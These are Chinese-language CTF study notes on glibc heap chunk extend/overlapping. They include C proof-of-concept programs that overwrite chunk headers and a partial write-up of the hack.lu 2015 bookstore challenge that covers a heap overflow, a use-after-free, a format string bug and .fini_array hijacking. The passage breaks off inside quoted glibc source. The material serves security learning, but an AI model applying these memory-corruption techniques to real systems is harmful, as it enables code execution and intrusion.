# CTF-PWN-Heap-[chunk extend/overlapping-1]


## chunk extend/overlapping
本质上是把已获得的 chunk 的 size 变大，使其能够覆盖原本不属于这个 chunk 的内存（覆盖其他 chunk），从而控制写入那部分内存的内容

条件：你能够修改 chunk 头部的数据，并且修改之后还有一次机会在对应的 bin 中 malloc 一个与修改后 size 相符的 chunk。只有这样，修改才能生效，最终实现对 chunk 范围的扩展

### 与 top chunk 相邻的 fastbin 释放时不会合并
```c
 #include <stdio.h>
 #include <stdlib.h>
 #include <string.h>
 #include <stdint.h>
int main()
{
    void *ptr1,*ptr2,*ptr3,*ptr4,*ptr5,*ptr6,*ptr7,*ptr8,*ptr9;

    ptr1=malloc(0x10);//分配第1个 0x10 的chunk1
	ptr2=malloc(0x10);//分配第1个 0x10 的chunk1
	ptr3=malloc(0x10);//分配第1个 0x10 的chunk1
	ptr4=malloc(0x10);//分配第1个 0x10 的chunk1
	ptr5=malloc(0x10);//分配第1个 0x10 的chunk1
	ptr6=malloc(0x10);//分配第1个 0x10 的chunk1
	ptr7=malloc(0x10);//分配第1个 0x10 的chunk1
	ptr8=malloc(0x10);//分配第1个 0x10 的chunk1

    free(ptr1);
	free(ptr2);
	free(ptr3);
	free(ptr4);
	free(ptr5);
	free(ptr6);
	free(ptr7);
	free(ptr8);

}
```
结果

### 与 top chunk 相邻的 unsorted bin chunk 释放时会合并

```c
 #include <stdio.h>
 #include <stdlib.h>
 #include <string.h>
 #include <stdint.h>
int main()
{
    void *ptr1,*ptr2,*ptr3,*ptr4,*ptr5,*ptr6,*ptr7,*ptr8,*ptr9;

    ptr1=malloc(0x80);//分配第1个 0x80 的chunk1
	ptr2=malloc(0x80);//分配第1个 0x80 的chunk1
	ptr3=malloc(0x80);//分配第1个 0x80 的chunk1
	ptr4=malloc(0x80);//分配第1个 0x80 的chunk1
	ptr5=malloc(0x80);//分配第1个 0x80 的chunk1
	ptr6=malloc(0x80);//分配第1个 0x80 的chunk1
	ptr7=malloc(0x80);//分配第1个 0x80 的chunk1
	ptr8=malloc(0x80);//分配第1个 0x80 的chunk1

    free(ptr1);
	free(ptr2);
	free(ptr3);
	free(ptr4);
	free(ptr5);
	free(ptr6);
	free(ptr7);
	free(ptr8);

}
```




### 向后扩展重叠（Backward extend overlapping）
这里把 size 修改得更大，使得 chunk 的内容范围扩大，能够覆盖到地址更高的内容
具体可以分为两种：先修改 size，再 free，再 malloc；以及先 free，再修改，再 malloc

此时要注意源码中的各种检查

这是 libc2.23 的 fastbin 源码，malloc 时的源码
```c
  if ((unsigned long) (nb) <= (unsigned long) (get_max_fast ()))
    {
      idx = fastbin_index (nb);
      mfastbinptr *fb = &fastbin (av, idx);
      mchunkptr pp = *fb;
      do
        {
          victim = pp;
          if (victim == NULL)
            break;
        }
      while ((pp = catomic_compare_and_exchange_val_acq (fb, victim->fd, victim))
             != victim);
      if (victim != 0)
        {*/
          if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
            {
              errstr = "malloc(): memory corruption (fast)";
            errout:
              malloc_printerr (check_action, errstr, chunk2mem (victim), av);
              return NULL;
            }
          check_remalloced_chunk (av, victim, nb);
          void *p = chunk2mem (victim);
          alloc_perturb (p, bytes);
          return p;
        }
    }
```
检查函数

```c

static void
do_check_remalloced_chunk (mstate av, mchunkptr p, INTERNAL_SIZE_T s)
{
  INTERNAL_SIZE_T sz = p->size & ~(PREV_INUSE | NON_MAIN_ARENA);

  if (!chunk_is_mmapped (p))
    {
      assert (av == arena_for_chunk (p));
      if (chunk_non_main_arena (p))
        assert (av != &main_arena);
      else
        assert (av == &main_arena);
    }

  do_check_inuse_chunk (av, p);

  /* Legal size ... */
  assert ((sz & MALLOC_ALIGN_MASK) == 0);
  assert ((unsigned long) (sz) >= MINSIZE);
  /* ... and alignment */
  assert (aligned_OK (chunk2mem (p)));
  /* chunk is less than MINSIZE more than request */
  assert ((long) (sz) - (long) (s) >= 0);
  assert ((long) (sz) - (long) (s + MINSIZE) < 0);
}

```
 do_check_inuse_chunk (av, p); 函数
```c
static void
do_check_inuse_chunk (mstate av, mchunkptr p)
{
  mchunkptr next;

  do_check_chunk (av, p);

  if (chunk_is_mmapped (p))
    return; /* mmapped chunks have no next/prev */

  /* Check whether it claims to be in use ... */
  assert (inuse (p));

  next = next_chunk (p);

  /* ... and is surrounded by OK chunks.
     Since more things can be checked with free chunks than inuse ones,
     if an inuse chunk borders them and debug is on, it's worth doing them.
   */
  if (!prev_inuse (p))
    {
      /* Note that we cannot even look at prev unless it is not inuse */
      mchunkptr prv = prev_chunk (p);
      assert (next_chunk (prv) == p);
      do_check_free_chunk (av, prv);
    }

  if (next == av->top)
    {
      assert (prev_inuse (next));
      assert (chunksize (next) >= MINSIZE);
    }
  else if (!inuse (next))
    do_check_free_chunk (av, next);
}
```


####  先修改头部，再 free，再 malloc
对于 **fastbin**
修改一个即将释放进入 fastbin 的 chunk 的大小，使其覆盖到下一个目标 chunk；free 之后再 malloc，就能得到一个覆盖目标 chunk 的大 chunk

```c
#include<stdio.h>
#include <stdlib.h>

int main(void)
{
    void *ptr,*ptr1,*ptr2;

    ptr=malloc(0x10);//分配第一个0x10的chunk

    ptr2=malloc(0x10);//分配第二个0x10的chunk
    //free(ptr2)不影响后面的extend
    *(long long *)((long long)ptr-0x8)=0x41;// 修改第一个块的size域

    free(ptr);
    ptr1=malloc(0x30);// 实现 extend，控制了第二个块的内容
    printf("控制的地址:%p",ptr1);
    return 0;
}
```
此时修改后的 0x41 中的 1 是 pre_inuse 位，因为在这里把它设为 1 便于绕过检查


对于 **非 fastbin**
释放一个不属于 fastbin 且不与 top chunk 相邻的 chunk 时，该 chunk 首先会被放入 unsorted bin。修改其 size，使其覆盖到下一个目标 chunk；free 之后再 malloc，就能得到一个覆盖目标 chunk 的大 chunk


```c
#include<stdio.h>

#include <stdlib.h>
int main()
{
    void *ptr,*ptr1,*ptr2,*ptr3;

    ptr=malloc(0x80);//分配第一个 0x80 的chunk1
    ptr2=malloc(0x10); //分配第二个 0x10 的chunk2
    ptr3=malloc(0x10); //防止与top chunk合并

    *(int *)(ptr-0x8)=0xb1; //此时覆盖后的下一个chunk为ptr3
    free(ptr);
    ptr1=malloc(0xa0);
    printf("控制的地址为：%p",ptr1);
}
```



#### 先 free，再修改头部，再 malloc
对于 **fastbin**
因为 free 之后 chunk 被 malloc 取出时会检查其 size 是否正确，如果此时已被修改就会报错，所以这种方式不可行


对于 **非 fastbin**
释放一个不属于 fastbin 且不与 top chunk 相邻的 chunk 时，该 chunk 首先会被放入 unsorted bin。先 free，再修改 chunk 的 size，最后再次分配，即可实现重叠

```c
#include<stdio.h>
#include <stdlib.h>
int main()
{
    void *ptr,*ptr1,*ptr2,*ptr3;

    ptr=malloc(0x80);//分配第一个0x80的chunk1
    ptr2=malloc(0x10);//分配第二个0x10的chunk2

    free(ptr);//首先进行释放，使得chunk1进入unsorted bin

    *(int *)(ptr-0x8)=0xb1;
    ptr1=malloc(0xa0);
    printf("控制的地址为：%p",ptr1);
}
    

```

### 向前扩展重叠（Forward extend overlapping）
#### 利用放入 unsorted bin 之前的合并机制

向前扩展利用的是合并之后再把合并后的 chunk 放入 unsorted bin 的过程（它必须不与 top chunk 相邻）。通过修改 pre_size 字段，可以跨越多个 chunk（也就是说，由 pre_size 和 pre_inuse 确定的前一个 chunk，实际上可能覆盖了多个真实的 chunk），并把它们合并，从而实现重叠。

通过修改当前 chunk 的 pre_inuse 和 pre_size，当前 chunk 被释放时，会根据 pre_size 和 pre_inuse 确定的前一个 chunk 的地址，检查其是否是 free 状态；如果 pre_inuse 为 0，就会发生合并

####  先修改头部，再 free，再 malloc

```c
#include<stdio.h>
#include <stdlib.h>
int main(void)
{
    void *ptr1,*ptr2,*ptr3,*ptr4,*ptr5,*ptr6;
    ptr1=malloc(128);//smallbin1
    ptr2=malloc(0x10);//fastbin1
    ptr3=malloc(0x10);//fastbin2
    ptr4=malloc(128);//smallbin2
    ptr5=malloc(0x10);//防止与top合并
    free(ptr1);//使得下个chunk对应的前一个chunk是free的
    *(int *)((long long)ptr4-0x8)=0x90;//修改pre_inuse域
    *(int *)((long long)ptr4-0x10)=0xd0;//修改pre_size域
    free(ptr4);//unlink进行前向extend
    ptr6=malloc(0x150);//得到extend的chunk
    printf("控制的地址为：%p",ptr6);
}

```
#### 先 free，再修改头部，再 malloc
无效，因为合并只会在 free 时发生。如果在 free 之后再修改，就不会发生合并


# CTF-PWN 堆利用——chunk 扩展/重叠-2（hack.lu ctf 2015 bookstore）


[轻松获取 shell](https://0x3f97.github.io/pwn/2018/01/31/hack.luctf2015-bookstore/)
[常规获取 shell](https://bbs.kanxue.com/thread-246783.htm#msg_header_h2_2)
## hack.lu ctf 2015 bookstore
## 检查
GOT 表可写，且没有地址随机化（PIE）

## IDA 源码

> C 库函数 char *gets(char *str) 从标准输入 stdin 读取一行，并存入 str 指向的字符串中。遇到换行符或到达文件末尾时停止，具体取决于实际情况。

 
> C 库函数 int puts(const char *str) 将字符串写入标准输出 stdout，直到空字符为止，但不包括该空字符。输出末尾会追加一个换行符。

#### main 函数

```c
signed __int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int v4; // [rsp+4h] [rbp-BCh]
  char *v5; // [rsp+8h] [rbp-B8h]
  char *first_order; // [rsp+18h] [rbp-A8h]
  char *second_order; // [rsp+20h] [rbp-A0h]
  char *dest; // [rsp+28h] [rbp-98h]
  char s[136]; // [rsp+30h] [rbp-90h] BYREF
  unsigned __int64 v10; // [rsp+B8h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  first_order = (char *)malloc(0x80uLL);
  second_order = (char *)malloc(0x80uLL);
  dest = (char *)malloc(0x80uLL);
  if ( !first_order || !second_order || !dest )
  {
    fwrite("Something failed!\n", 1uLL, 0x12uLL, stderr);
    return 1LL;
  }
  v4 = 0;
  puts(
    " _____          _   _                 _          _                   _ \n"
    "/__   \\_____  _| |_| |__   ___   ___ | | __  ___| |_ ___  _ __ ___  / \\\n"
    "  / /\\/ _ \\ \\/ / __| '_ \\ / _ \\ / _ \\| |/ / / __| __/ _ \\| '__/ _ \\/  /\n"
    " / / |  __/>  <| |_| |_) | (_) | (_) |   <  \\__ \\ || (_) | | |  __/\\_/ \n"
    " \\/   \\___/_/\\_\\\\__|_.__/ \\___/ \\___/|_|\\_\\ |___/\\__\\___/|_|  \\___\\/   \n"
    "Crappiest and most expensive books for your college education!\n"
    "\n"
    "We can order books for you in case they're not in stock.\n"
    "Max. two orders allowed!\n");
LABEL_14:
  while ( !v4 )
  {
    puts("1: Edit order 1");
    puts("2: Edit order 2");
    puts("3: Delete order 1");
    puts("4: Delete order 2");
    puts("5: Submit");
    fgets(s, 128, stdin);
    switch ( s[0] )
    {
      case '1':
        puts("Enter first order:");
        edit_order(first_order);
        strcpy(dest, "Your order is submitted!\n");
        goto LABEL_14;
      case '2':
        puts("Enter second order:");
        edit_order(second_order);
        strcpy(dest, "Your order is submitted!\n");
        goto LABEL_14;
      case '3':
        delete_order(first_order);
        goto LABEL_14;
      case '4':
        delete_order(second_order);
        goto LABEL_14;
      case '5':
        v5 = (char *)malloc(0x140uLL);
        if ( !v5 )
        {
          fwrite("Something failed!\n", 1uLL, 0x12uLL, stderr);
          return 1LL;
        }
        submit(v5, first_order, second_order);
        v4 = 1;
        break;
      default:
        goto LABEL_14;
    }
  }
  printf("%s", v5);
  printf(dest);
  return 0LL;
  
}
```
在选择任何菜单选项之前，已经创建了三个大小为 0x80 的堆块（chunk 大小为 0x90）。第一个 chunk 保存 order1 的内容，第二个保存 order2 的内容，第三个保存 dest 的内容（存储字符串）。之后根据输入运行对应功能函数。选项 5 对应的函数会创建一个 0x140 的堆块（chunk 大小为 0x150），再将前面定义的两个 order 的内容与字符串 "Your order is submitted!\n" 拼接起来
#### edit_note

```c
unsigned __int64 __fastcall edit_order(char *a1)
{
  int idx; // eax
  int v3; // [rsp+10h] [rbp-10h]
  int cnt; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  v3 = 0;
  cnt = 0;
  while ( v3 != '\n' )
  {
    v3 = fgetc(stdin);
    idx = cnt++;
    a1[idx] = v3;
  }
  a1[cnt - 1] = 0;
  return __readfsqword(0x28u) ^ v5;
}
```
输入长度没有限制，可以一直输入到换行符，换行符会被替换为 0
#### delete_note

```python
unsigned __int64 __fastcall delete_order(void *a1)
{
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  free(a1);
  return __readfsqword(0x28u) ^ v2;
}
```
直接释放但不清空指针，因此存在释放后使用
#### submit

```python
unsigned __int64 __fastcall submit(char *all, const char *order1, char *order2)
{
  size_t v3; // rax
  size_t v4; // rax
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  strcpy(all, "Order 1: ");
  v3 = strlen(order1);
  strncat(all, order1, v3);
  strcat(all, "\nOrder 2: ");
  v4 = strlen(order2);
  strncat(all, order2, v4);
  *(_WORD *)&all[strlen(all)] = '\n';
  return __readfsqword(0x28u) ^ v7;
}
```
提交：将各个 order 的字符串与此前使用功能 1 或 2 时已赋给 dest 的字符串内容组合起来，再次赋给 dest


###  .fini_array 段劫持（返回 main 函数的一种方法）
[.fini_array 段劫持参考资料](https://nocbtm.github.io/2020/02/20/%C2%96-fini-array%E6%AE%B5%E5%8A%AB%E6%8C%81/)

> 大多数可执行文件在编译时都会链接 libc，因此 gcc 会将 glibc 的初始化代码放入编译后的可执行文件和共享库中。.init_array 和 .fini_array 段（早期版本中称为 .ctors 和 .dtors）保存指向初始化代码与终止代码的函数指针。.init_array 中的函数指针会在调用 main() 函数之前触发。这意味着，通过用正确的地址覆盖指针，可以将控制流转向病毒或寄生代码。.fini_array 中的函数指针只会在 main() 函数执行结束后触发，在某些场景下很有用。例如，某个特定的堆溢出漏洞（如之前的 Once upon a free()）可能允许攻击者向任意位置写入 4 字节，攻击者通常会用指向 shellcode 地址的函数指针覆盖 .fini_array 中的函数指针。对大多数病毒或恶意软件作者而言，.init_array 函数指针是最常攻击的目标，因为它通常能让寄生代码在程序其余部分执行前运行。


构造函数和析构函数。程序员应按类似下面的方式指定这些属性：

具有 "constructor" 属性的函数会在 main() 函数之前执行，而声明为 "destructor" 属性的函数会在 main() 退出后执行。


```c
#include <stdio.h>
#include <stdlib.h>

static void start(void) __attribute__ ((constructor));
static void stop(void) __attribute__ ((destructor));

int main(int argc, char *argv[])
{
    printf("start == %p\n", start);
    printf("stop == %p\n", stop);
    return 0;
}

void start(void)
{
    printf("hello world!\n");
}

void stop(void)
{
    printf("goodbye world!\n");
}
```

在 gdb 中使用 readelf 查看对应的 .init_array 和 .fini_array 段，以及其中存储的函数指针

分析一下结果
 .init_array 中存储的 0x1160 是 frame_dummy 函数的地址（可在 IDA 中查看）；0x11bf 是自定义 start 函数的地址。也就是说，在 main 开始之前，会先执行 frame_dummy 函数和 start 函数

 .fini_array 中存储的 0x1120 是 __do_global_dtors_aux 函数的地址（可在 IDA 中查看）；0x11d9 是自定义 stop 函数的地址。也就是说，在 main 结束后，会执行 __do_global_dtors_aux 函数和 stop 函数


假设现在移除定义的属性
```c
#include <stdio.h>
#include <stdlib.h>

static void start(void) ;
static void stop(void) ;

int main(int argc, char *argv[])
{
    printf("start == %p\n", start);
    printf("stop == %p\n", stop);
    return 0;
}

void start(void)
{
    printf("hello world!\n");
}

void stop(void)
{
    printf("goodbye world!\n");
}
```
此时 .init_array 和 .fini_array 中都只剩一个函数指针：.init_array 保存 frame_dummy 函数的地址（可在 IDA 中查看），.fini_array 保存 __do_global_dtors_aux 函数的地址（可在 IDA 中查看） 


## 思路
存在明显的任意长度溢出，因此可以修改其他 chunk 的头部和内容
如图，使用 edit 2 时，写入 0x80 字节填满 chunk2，多出的内容会溢出到 chunk3 的头部，从而对其进行修改

但首先需要得到 libc 地址，也就是泄露某个相关函数的地址

发现了格式化字符串漏洞，但它在循环外，因此只有 submit 后才会执行该函数。另外，编辑时会向 dest 位置复制字符串，所以通过溢出布置格式化字符串时，必须提前给后续复制进来的字符串预留空间，格式化字符串放在它后面。然而随后发现，strcpy 也会将空字节复制进去，导致后面的内容失效，所以这种方法仍然不可行。必须找到另一次覆盖 dest 的机会

此时需要使用 chunk extend 技巧
先释放第二个堆块，再通过编辑第一个堆块溢出修改第二个堆块的头部，然后调用 submit 触发 malloc。当然，也可以先从第一个堆块溢出修改第二个堆块的头部，再释放第二个堆块，最后调用 submit 触发 malloc
这样 submit 得到的堆块就是第二个堆块，其大小扩展到覆盖 dest chunk，因此可以修改格式化字符串

free 之前会对 chunk 进行各种检查。简单来说，不允许 double free，而且根据 size 计算出的下一个 chunk 必须确实是 malloc 得到的 chunk。malloc 时，会尝试对 unsorted bin 中的 chunk 进行前后合并：首先由 prev_inuse 决定是否向后合并——若为 1，就不需要合并。同样，如果下一个 chunk 正在使用，就不向前合并（这里检查的是下下个 chunk 的 prev_inuse 位）

所以这里溢出覆盖的 prev_size 为 0 并没有影响。如果先释放，就不用考虑这些 free 前的检查，只需考虑如何修改，使 malloc 返回的 0x140 堆块是第二个 chunk。但如果先修改再释放，面临的各种检查比较繁琐，还需要构造下一个 chunk。因此采用先释放再修改的方法，对应从 unsorted bin 中重新分配


```c
if (size == nb)
{
    set_inuse_bit_at_offset (victim, size);
    if (av != &main_arena)
        victim->size |= NON_MAIN_ARENA;
    check_malloced_chunk (av, victim, nb);
    void *p = chunk2mem (victim);
    alloc_perturb (p, bytes);
    return p;
```

```c
# define check_malloced_chunk(A, P, N)   do_check_malloced_chunk (A, P, N)
static void
do_check_malloced_chunk (mstate av, mchunkptr p, INTERNAL_SIZE_T s)
{
  /* same as recycled case ... */
  do_check_remalloced_chunk (av, p, s);

  /*
     ... plus,  must obey implementation invariant that prev_inuse is
     always true of any allocated chunk; i.e., that each allocated
     chunk borders either a previously allocated and still in-use
     chunk, or the base of its memory arena. This is ensured
     by making all allocations from the `lowest' part of any found
     chunk.  This does not necessarily hold however for chunks
     recycled via fastbins.
   */

  assert (prev_inuse (p));
}
static void
do_check_remalloced_chunk (mstate av, mchunkptr p, INTERNAL_SIZE_T s)
{
  INTERNAL_SIZE_T sz = p->size & ~(PREV_INUSE | NON_MAIN_ARENA);

  if (!chunk_is_mmapped (p))
    {
      assert (av == arena_for_chunk (p));
      if (chunk_non_main_arena (p))
        assert (av != &main_arena);
      else
        assert (av == &main_arena);
    }

  do_check_inuse_chunk (av, p);

  /* Legal size ... */
  assert ((sz & MALLOC_ALIGN_MASK) == 0);
  assert ((unsigned long) (sz) >= MINSIZE);
  /* ... and alignment */
  assert (aligned_OK (chunk2mem (p)));
  /* chunk is less than MINSIZE more than request */
  assert ((long) (sz) - (long) (s) >= 0);
  assert ((long) (sz) - (long) (s + MINSIZE) < 0);
}

/*
   Properties of nonrecycled chunks at the point they are malloced
 */


static void
do_check_inuse_chunk (mstate av, mchunkptr p)
{
  mchunkptr next;

  do_check_chunk (av, p);

  if (chunk_is_mmapped (p))
    return; /* mmapped chunks have no next/prev */

  /* Check whether it claims to be in use ... */
  assert (inuse (p));

  next = next_chunk (p);

  /* ... and is surrounded by OK chunks.
     Since more things can be checked with free chunks than inuse ones,
     if an inuse chunk borders them and debug is on, it's worth doing them.
   */
  if (!prev_inuse (p))
    {
      /* Note that we cannot even look at prev unless it is not inuse */
      mchunkptr prv = prev_chunk (p);
      assert (next_chunk (prv) == p);
      do_check_free_chunk (av, prv);
    }

  if (next == av->top)
    {
      assert (prev_inuse (next));
      assert (chunksize (next) >= MINSIZE);
    }
  else if (!inuse (next))
    do_check_free_chunk (av, next);                       这个检查应该使得无法利用的，不知道为啥可以利用成功
}
```
可以看到，下一个 chunk 的 inuse 位为 0
下一个 chunk 应该无法通过 do_check_free_chunk (av, next);   
不知道为什么

```c


static void
do_check_chunk (mstate av, mchunkptr p)
{
  unsigned long sz = chunksize (p);
  /* min and max possible addresses assuming contiguous allocation */
  char *max_address = (char *) (av->top) + chunksize (av->top);
  char *min_address = max_address - av->system_mem;

  if (!chunk_is_mmapped (p))
    {
      /* Has legal address ... */
      if (p != av->top)
        {
          if (contiguous (av))
            {
              assert (((char *) p) >= min_address);
              assert (((char *) p + sz) <= ((char *) (av->top)));
            }
        }
      else
        {
          /* top size is always at least MINSIZE */
          assert ((unsigned long) (sz) >= MINSIZE);
          /* top predecessor always marked inuse */
